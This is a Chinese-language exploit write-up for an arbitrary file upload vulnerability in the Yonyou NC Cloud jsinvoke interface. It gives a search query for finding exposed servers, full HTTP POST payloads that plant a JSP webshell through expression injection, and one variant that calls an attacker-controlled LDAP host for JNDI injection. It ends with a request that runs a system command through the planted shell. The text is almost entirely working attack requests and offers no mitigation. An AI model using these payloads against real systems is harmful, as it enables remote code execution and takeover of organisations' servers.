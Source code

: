 # 用友 NC Cloud jsinvoke 任意文件上传漏洞

## 漏洞描述

用友 NC Cloud jsinvoke 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件至服务器中，获取系统权限

## 漏洞影响

用友 NC Cloud

## 网络测绘

```
app="用友-NC-Cloud"
```

## 漏洞复现

登陆页面

![image-20230828164153665](images/image-20230828164153665.png)

验证POC

```
POST /uapjs/jsinvoke/?action=invoke
Content-Type: application/json

{
    "serviceName":"nc.itf.iufo.IBaseSPService",
    "methodName":"saveXStreamConfig",
    "parameterTypes":[
        "java.lang.Object",
        "java.lang.String"
    ], 
    "parameters":[
        "${param.getClass().forName(param.error).newInstance().eval(param.cmd)}",
        "webapps/nc_web/407.jsp"
    ]
}
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: 
Connection: Keep-Alive
Content-Length: 253
Content-Type: application/x-www-form-urlencoded


{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${''.getClass().forName('javax.naming.InitialContext').newInstance().lookup('ldap://VPSip:1389/TomcatBypass/TomcatEcho')}","webapps/nc_web/301.jsp"]}
```

![image-20230828164215853](images/image-20230828164215853.png)

```
/cmdtest.jsp?error=bsh.Interpreter&cmd=org.apache.commons.io.IOUtils.toString(Runtime.getRuntime().exec(%22whoami%22).getInputStream()) 
```

![image-20230828164239659](images/image-20230828164239659.png)